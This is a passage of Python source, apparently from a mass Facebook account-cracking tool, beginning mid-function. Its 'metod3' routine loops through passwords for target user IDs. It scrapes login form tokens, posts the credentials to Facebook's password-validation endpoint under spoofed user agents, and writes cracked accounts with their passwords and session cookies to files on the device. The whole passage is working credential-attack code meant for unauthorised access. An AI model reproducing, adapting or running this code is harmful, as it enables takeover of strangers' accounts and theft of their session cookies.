 			else:
				continue
		except requests.exceptions.ConnectionError:
			waktu(31)
	loop+=1
###----------[ MBASIC ]----------###
def metod3(idf,pwv):
	global loop,ok,cp
	prog.update(des,description=f'\r[deep_white]{(loop)}/{len(id)}[/] [green]OK[/]:[green]{(ok)} [/]=[yellow] CP[/]:[yellow]{(cp)}')
	prog.advance(des)
	ua = random.choice(usragent)
	ses = requests.Session()
	for pw in pwv:
		try:
			if 'ya' in ualuh: ua = ualu[0]
			ses.headers.update({"Host":'d.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://d.facebook.com/login.php?skip_api_login=1&api_key=1862952583919182&kid_directed_site=0&app_id=1862952583919182&signed_next=1&next=https%3A%2F%2Fmbasic.facebook.com%2Fv2.9%2Fdialog%2Foauth%2F%3Fplatform%3Dfacebook%26client_id%3D1862952583919182%26response_type%3Dtoken%26redirect_uri%3Dhttps%253A%252F%252Fwww.tiktok.com%252Flogin%252F%26state%3D%257B%2522client_id%2522%253A%25221862952583919182%2522%252C%2522network%2522%253A%2522facebook%2522%252C%2522display%2522%253A%2522popup%2522%252C%2522callback%2522%253A%2522_hellojs_6e2e4pat%2522%252C%2522state%2522%253A%2522%2522%252C%2522redirect_uri%2522%253A%2522https%253A%252F%252Fwww.tiktok.com%252Flogin%252F%2522%252C%2522scope%2522%253A%2522basic%2522%257D%26scope%3Dpublic_profile%26auth_type%3Dreauthenticate%26display%3Dpopup%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Dc5ab7d53-0810-47b0-8640-39adfbf98cfd%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.tiktok.com%2Flogin%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522client_id%2522%253A%25221862952583919182%2522%252C%2522network%2522%253A%2522facebook%2522%252C%2522display%2522%253A%2522popup%2522%252C%2522callback%2522%253A%2522_hellojs_6e2e4pat%2522%252C%2522state%2522%253A%2522%2522%252C%2522redirect_uri%2522%253A%2522https%253A%252F%252Fwww.tiktok.com%252Flogin%252F%2522%252C%2522scope%2522%253A%2522basic%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			ses.headers.update({"Host":'d.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://d.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r└── {kun}{idf}|{pw}\n{xxx}└── {mer}{ua}{xxx}')
				os.popen('play-audio c.mp3')
				open('/sdcard/AKUN-CP/'+cph,'a').write(idf+'|'+pw+'\n')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r└── {hijo}{idf}|{pw}|{kuki}\n{xxx}└── {hijo}{ua}{xxx}')
				os.popen('play-audio o.mp3')
				open('/sdcard/AKUN-OK/'+okh,'a').write(idf+'|'+pw+'|'+kuki+'\n')